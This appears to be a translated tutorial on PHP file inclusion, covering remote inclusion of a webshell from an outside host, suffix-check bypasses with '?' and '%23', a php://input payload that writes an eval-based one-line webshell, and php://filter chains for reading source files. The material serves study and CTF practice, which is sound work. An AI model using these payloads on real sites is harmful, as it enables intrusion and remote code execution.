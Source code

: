 Prerequisites for utilization:
- allow_url_fopen = On Whether to allow the opening of remote files
- allow_url_include = On Whether to allow include/require remote files

### No restrictions

There is no restriction on the code. You can just store malicious webshells on the public website, and then execute malicious payloads by including them.
`?filename=http://xxxx/php.txt`

### Restrict the suffix name of the included file

For example: `<?php include($_GET['filename'] . ".no"); ?>`


- The first method:?Bypass `?filename=http://xxxx/php.txt?`
- The second method: #Bypass `?filename=http://xxxx/php.txt%23`

# PHP Pseudo-Protocol

Simply understand it is a set of protocols provided by PHP, which can be applied to its own language, while other languages ​​do not apply. This is a pseudo-protocol. In contrast, HTTP\HTTPS is not a pseudo-protocol, because most systems\software can identify it.

## Common pseudo-protocols

You can see the contents of [Detailed explanation of PHP Pseudo-Protocol] (https://blog.csdn.net/LYJ20010728/article/details/110312276) between the two
![Insert the picture description here](https://img-blog.csdnimg.cn/20210527211634446.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
If the environment encountered has write permission, you can use the php://input pseudo-protocol to write to the Trojan

```php
POST DATA
<?php fputs(fopen('H3rmesk1t.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
```
## php://filter various filters

php://filter is a meta wrapper designed to filter applications when data flow is opened. For details, please refer to [official document] (https://www.php.net/manual/zh/wrappers.php.php)

For php://, it supports nesting of multiple filters, and the format is as follows:

```p
php://filter/[read|write]=[filter 1]|[filter 2]/resource=file name (including suffix name)
# If | is filtered out, you can use multiple filters:

php://filter/string.rot13/resource=php://filter/convert.base64-encode/resource=file name (including suffix name)
# The execution process of the nested process is from left to right

In fact, it can be abbreviated as php://filter/[filter], and php will identify it by itself.
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210527212439780.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
## Filter list
| Filter Name | Description | Category | Version |
|---|---|---|---|
string.rot13 |rot13 conversion | string filter | PHP>4.3.0
string.toupper, string.tolower|Case transfer|String filter|PHP>5.0.0
string.strip_tags| Remove the content of `<?(.*?)?>`| string.strip_tags| PHP<7.3.0
convert.base64-encode, convert.base64-decode | base64 encoding conversion | Conversion filter | PHP>5.0.0